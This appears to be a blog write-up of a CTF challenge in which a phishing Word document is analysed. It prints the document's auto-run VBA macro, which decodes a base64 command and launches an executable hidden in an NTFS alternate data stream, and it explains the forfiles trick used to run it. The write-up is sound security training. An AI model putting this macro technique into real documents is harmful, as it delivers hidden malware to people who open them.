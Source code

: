 ```yaml
---
layout: post
title: Office Hazard
description: Definitely nothing sus here..
tags: misc secchallenge22
permalink: /sc22/misc/office
hidden: 1
---
```


## Description

The office is a dangerous place. Last week Pam (the secretary) got an email, containing an archive. She ALMOST opened it, but then she remembered the IT security training from last month and fortunately decided to send the file to you. Somethings was phishy about the sender address to her. It was a close call to say the least...

__IMPORTANT NOTES__

 1. This challenge cannot be solved on any file systems other than NTFS.
 2. If you want to see the challenge in action, you have to use a Windows box with Office installed. In addition, add the folder where the challenge is extracted to to `Trusted Locations` ([help for that](https://support.microsoft.com/en-us/office/add-remove-or-change-a-trusted-location-7ee1cdc2-483e-4cbb-bcb3-4e7c67147fb4)). The challenge can be solved without actually running anything.
 3. Windows Defender and other AVs might flag the files as dangerous, these are false positive alerts.


- Author: chronos
- Attachments: [office_hazard.rar](/media/sc22/misc/office/office_hazard.rar)

## Solution

I've read enough stuff about CTFs and Word documents, to know, that we are looking at a VBA script challenge. Setting up a VM, and opening the Word doc, a totally not sus command prompt is opened. I quickly extracted the VBA script using [olevba](https://github.com/decalage2/oletools/wiki/olevba). Its a not so big script, so thankfully, it isn't VBA reversing.
```vba
Private Sub Document_Open()

Dim DecodedCode
DecodedCode = DecodeBase64("Zm9yZmlsZXMgL1AgQzpcV2luZG93c1xTeXN0ZW0zMiAvbSBjYWxjLmV4ZSAvYyAlY2QlXHNlY3JldC50eHQ6aGFjay5leGU=")

CreateObject("WScript.Shell").Exec ("cmd /c " & DecodedCode)


End Sub

Function DecodeBase64(b64$)
    Dim b
    With CreateObject("Microsoft.XMLDOM").createElement("b64")
        .DataType = "bin.base64": .Text = b64
        b = .nodeTypedValue
        With CreateObject("ADODB.Stream")
            .Open: .Type = 1: .Write b: .Position = 0: .Type = 2: .Charset = "utf-8"
            DecodeBase64 = .ReadText
            .Close
        End With
    End With
End Function
```

The code above is run once on opening the document. Decoding the base64 string, we can see, that we are running the following command:
```powershell
cmd /c forfiles /P C:\Windows\System32 /m calc.exe /c %cd%\secret.txt:hack.exe
```
This basically runs the command forfiles, which is just a magic for running the command defined with the second `/c` only once (since `calc.exe` is matched once only in the `C:\Windows\System32` directory).
It does some magic with the `secret.txt` file. And what is that syntax with the colon? Turns out the reason why `NTFS` was requested is [Alternate Datastreams](https://www.faqforge.com/windows/use-alternate-datastreams-to-hide-important-files-windows-ntfs/).
I wrote a quick few-liner in python to extract the data (I suck at ps, sorry):
```python
with open('secret.txt:hack.exe', 'rb') as f:
    with open('hack.exe', 'wb') as f2:
        f2.write(f.read())
```

All is left for us, to dig the flag out from the `hack.exe` binary. Loading the binary into `Ghidra` and doing a quick search for "flag" gets the job done:
```
cd22{HIDDEN}
```

[&#8592; Back to SecChallenge22](/sc22)
